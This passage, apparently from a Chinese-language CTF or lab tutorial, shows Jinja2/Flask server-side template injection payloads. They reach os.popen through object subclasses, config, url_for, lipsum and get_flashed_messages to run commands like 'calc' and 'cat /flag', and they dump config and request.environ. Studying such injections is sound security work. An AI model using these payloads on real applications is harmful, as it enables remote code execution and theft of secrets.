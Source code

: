 4. 构造利用方法，popen直接弹出服务器的计算器calc

```
{{''.__class__.__base__.__subclasses__()[133].__init__.__globals__.popen('calc')}}
```



```
{{''.__class__.__base__.__subclasses__()[133].__init__.__globals__.popen('cat /flag').read()}}
```



或者另外一种形式

上下两个是等价的，看具体绕过

```
{{[].__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('calc')}}
```



上面从根源上去调用



下面还有其他引用方式



- 使用config,从当前项目中调用

```
{{config.__class__.__init__.__globals__['os'].popen('calc')}}
```



- 使用url_for

```
{{url_for.__globals__.os.popen('calc')}}
```



- 使用lipsum

```
{{lipsum.__globals__['os'].popen('calc')}}
```



- 使用get_flashed_messages

```
{{get_flashed_messages.__globals__['os'].popen('calc')}}
```



```
{{config}}
{{request.environ}}
```


